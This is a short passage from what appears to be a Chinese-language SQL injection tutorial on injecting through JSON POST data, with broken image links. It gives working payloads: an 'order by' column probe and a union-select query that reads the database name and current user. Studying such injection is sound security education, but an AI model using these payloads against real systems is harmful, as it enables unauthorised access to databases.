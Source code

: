 json提交数据包格式：

![1645153801540-8ad55800-4afd-4ada-9e08-0f09954b88d1.png](.\SQL注入原理.assets\2504969-20230912132701044-1324697246.png)

json注入payload应该怎么构造呢？

`这里使用到post提交json={"username":"admin' order by 3#"}`

![1645154654636-46df1a5d-f17c-470d-a72e-c4f3d9858569.png](.\SQL注入原理.assets\2504969-20230912132700964-8248436.png)

~~~bash
查询用户和数据库名：
json={"username":"admin' and 1=2 union select 1,database(),user()#"}
~~~
